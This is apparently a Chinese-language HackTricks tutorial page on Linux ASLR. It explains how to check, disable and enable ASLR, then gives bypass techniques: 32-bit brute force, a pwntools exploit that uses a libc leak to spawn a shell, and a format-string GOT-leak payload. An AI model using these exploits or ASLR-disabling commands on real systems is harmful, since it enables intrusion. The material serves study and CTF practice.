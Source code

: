# ASLR

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

**地址空间布局随机化（ASLR）**是操作系统中使用的一种安全技术，用于**随机化系统和应用程序进程使用的内存地址**。通过这样做，它显著增加了攻击者预测特定进程和数据位置（如堆栈、堆和库）的难度，从而减轻了某些类型的利用，特别是缓冲区溢出。

### **检查ASLR状态**

要在Linux系统上**检查**ASLR状态，可以从`/proc/sys/kernel/randomize_va_space`文件中读取值。存储在此文件中的值确定应用的ASLR类型：

* **0**：无随机化。一切都是静态的。
* **1**：保守随机化。共享库、堆栈、mmap()、VDSO页面被随机化。
* **2**：完全随机化。除了保守随机化随机化的元素外，通过`brk()`管理的内存也被随机化。

您可以使用以下命令检查ASLR状态：
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **禁用 ASLR**

要**禁用** ASLR，您需要将 `/proc/sys/kernel/randomize_va_space` 的值设置为 **0**。通常不建议在非测试或调试场景下禁用 ASLR。以下是禁用方法：
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
您还可以通过以下方式禁用执行的ASLR：
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **启用ASLR**

要**启用**ASLR，您可以将值**2**写入`/proc/sys/kernel/randomize_va_space`文件。通常需要root权限。可以使用以下命令启用完全随机化：
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **跨重启保持**

使用`echo`命令进行的更改是临时的，将在重新启动时重置。要使更改持久化，您需要编辑`/etc/sysctl.conf`文件并添加或修改以下行：
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
在编辑 `/etc/sysctl.conf` 后，使用以下命令应用更改：
```bash
sudo sysctl -p
```
这将确保您的ASLR设置在重新启动后保持不变。

## **绕过**

### 32位暴力破解

PaX将进程地址空间分为**3组**：

* **代码和数据**（已初始化和未初始化）：`.text`、`.data`和`.bss` —> `delta_exec`变量中的**16位**熵。该变量在每个进程中随机初始化，并添加到初始地址中。
* 由`mmap()`分配的**内存**和**共享库** —> **16位**，称为`delta_mmap`。
* **堆栈** —> **24位**，称为`delta_stack`。但实际上只使用**11位**（从第10到第20字节，包括在内），对齐到**16字节** —> 这导致**524,288个可能的真实堆栈地址**。

上述数据适用于32位系统，降低的最终熵使得可以通过多次尝试执行直到利用成功来绕过ASLR。

#### 暴力破解思路：

* 如果您有足够大的溢出空间以容纳**大型NOP滑梯在shellcode之前**，您可以在堆栈中暴力破解地址，直到流程**跳过NOP滑梯的某部分**。
* 另一个选择是，如果溢出空间不够大且利用可以在本地运行，则可以**将NOP滑梯和shellcode添加到环境变量**中。
* 如果利用是本地的，您可以尝试暴力破解libc的基地址（适用于32位系统）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 当攻击远程服务器时，您可以尝试**暴力破解`libc`函数`usleep`的地址**，将10作为参数传递。如果某个时刻**服务器需要额外10秒才能响应**，则找到了该函数的地址。

{% hint style="success" %}
在64位系统中，熵值更高，这是不可能的。
{% endhint %}

### 有了泄漏

* **挑战是提供一个泄漏**

如果您获得了一个泄漏（简单的CTF挑战），您可以从中计算偏移量（假设您知道正在利用的系统中使用的确切libc版本）。这个示例利用是从[**这里的示例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)中提取的（查看该页面以获取更多详细信息）:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

通过利用缓冲区溢出，可以利用 **ret2plt** 来窃取来自 libc 的函数地址。查看：

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **格式化字符串任意读取**

就像在 ret2plt 中一样，如果通过格式化字符串漏洞实现了任意读取，就可以从 GOT 中窃取 **libc 函数** 的地址。以下[**示例来自此处**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
您可以在以下位置找到有关格式字符串任意读取的更多信息：

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

尝试通过滥用堆栈内部的地址来绕过ASLR：

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
